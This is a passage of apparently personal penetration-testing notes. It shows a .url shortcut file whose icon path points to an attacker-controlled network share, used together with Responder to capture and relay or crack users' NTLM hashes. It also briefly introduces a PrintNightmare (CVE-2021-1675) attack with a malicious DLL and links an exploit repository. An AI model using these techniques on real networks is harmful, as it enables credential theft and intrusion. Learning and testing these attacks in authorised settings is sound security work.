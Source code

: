         ```html
        [InternetShortcut]
        URL=blah
        WorkingDirectory=blah
        IconFile=\\x.x.x.x\%USERNAME%.icon
        IconIndex=1
        ```
        
        ![256.jpg](../../Media/NetworkPen%20Images/256.jpg)
        
    - To make this file at the top of the folder in file share folder and this ensures that it loads . **Note the filename and save as type.**
        
        ![257.jpg](../../Media/NetworkPen%20Images/257.jpg)
        
        - Using Responder to get the hash.
        
        ![258.jpg](../../Media/NetworkPen%20Images/258.jpg)
        
        - Getting hashes and you can relay to get to somewhere else it as well or crack it.
    - **PrintNightmare (CVE-2021-1675) - Using Metasploit (msvenom) to create malicious dll to preform the attack “Generating payload”  :**
        
        [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
        